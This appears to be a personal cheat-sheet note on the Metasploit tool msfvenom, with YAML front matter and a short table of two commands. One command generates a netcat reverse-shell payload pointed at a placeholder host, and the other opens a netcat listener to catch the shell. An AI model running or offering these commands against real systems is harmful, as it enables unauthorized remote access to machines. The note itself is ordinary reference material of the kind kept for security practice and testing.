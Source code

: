 ```yaml
---
topic: msfvenom
type: tool
site: https://github.com/rapid7/metasploit-framework
status: tried
included_topics:
  - cli
  - hacking
language:
  - bash
history:
  found: 2023/04/21
  tried: 2023/04/21
  used:
  core:
  hold:
os:
  - linux
  - windows
  - mac
---
```


# msfvenom
[Readme](../../README.md)

- [msfvenom](#msfvenom)
  - [Commands](#commands)
    - [Examples](#examples)


## Commands
### Examples

| What                        | Command                                                         |
| :-------------------------- | :-------------------------------------------------------------- |
| Payload for reverse shell   | ```msfvenom -p cmd/unix/reverse_netcat lhost=ip lport=4444 R``` |
| Open port for reverse shell | ```nc -lvp 4444```                                              |

